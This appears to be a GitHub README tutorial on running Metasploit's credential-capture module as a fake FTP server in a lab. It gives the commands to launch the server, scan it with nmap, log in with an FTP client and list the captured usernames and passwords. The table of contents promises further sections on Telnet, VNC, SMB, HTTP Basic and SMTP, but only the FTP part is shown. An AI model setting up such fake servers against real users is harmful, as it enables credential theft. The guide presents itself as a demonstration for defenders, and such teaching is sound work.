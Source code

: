 # Metasploit_Fake_services
# Capturing FTP Credentials with Metasploit

This repository contains a detailed guide on using the Metasploit framework to capture credentials by setting up fake servers for various protocols. The goal is to demonstrate how attackers can use Metasploit's auxiliary modules to gather credentials and how defenders can understand and mitigate such attacks.

## Table of Contents

- [Introduction](#introduction)
- [Requirements](#requirements)
- [Setup](#setup)
- [Configuration](#configuration)
- [Exploitation](#exploitation)
- [Verification](#verification)
- [Using Metasploit for Different Services](#using-metasploit-for-different-services)
  - [Telnet](#telnet)
  - [VNC](#vnc)
  - [SMB](#smb)
  - [HTTP Basic](#http-basic)
  - [SMTP](#smtp)
- [Security Considerations](#security-considerations)
- [Contributing](#contributing)
- [License](#license)

## Introduction

This guide explains how to use Metasploit's auxiliary modules to set up fake servers and capture credentials from unsuspecting victims. The process includes configuring the Metasploit modules, launching the fake servers, and using various tools to test the setup.

## Requirements

- Metasploit Framework installed
- Kali Linux or any Linux distribution with Metasploit
- Basic understanding of various network protocols and Metasploit

## Setup

1. **Install Metasploit Framework** (if not already installed):

    ```bash
    sudo apt update
    sudo apt install metasploit-framework
    ```
2. **Start Metasploit Console**:

    ```bash
    msfconsole
    ```
    ## Configuration

### FTP

1. **Select the FTP Capture Module**:

    ```bash
    use auxiliary/server/capture/ftp
    ```

2. **Set the Server Host**:

    ```bash
    set SRVHOST 192.168.23.128
    ```

3. **Set a Custom Banner**:

    ```bash
    set BANNER "Welcome"
    ```

4. **Launch the Fake FTP Server**:

    ```bash
    exploit
    ```
## Exploitation

1. **Verify the Fake Server is Running**:

    Use Nmap to scan for the open FTP port (21):

    ```bash
    nmap -p21 192.168.23.128
    ```

2. **Connect to the Fake FTP Server**:

    Use an FTP client to connect to the fake server:

    ```bash
    ftp 192.168.23.128
    ```

3. **Enter Username and Password**:

    When prompted, enter any username and password. These credentials will be captured by the fake server.

## Verification

1. **Check Captured Credentials**:

    In the Metasploit console, view the captured credentials:

    ```bash
    creds
    ```

    You should see the username and password entered during the FTP connection.


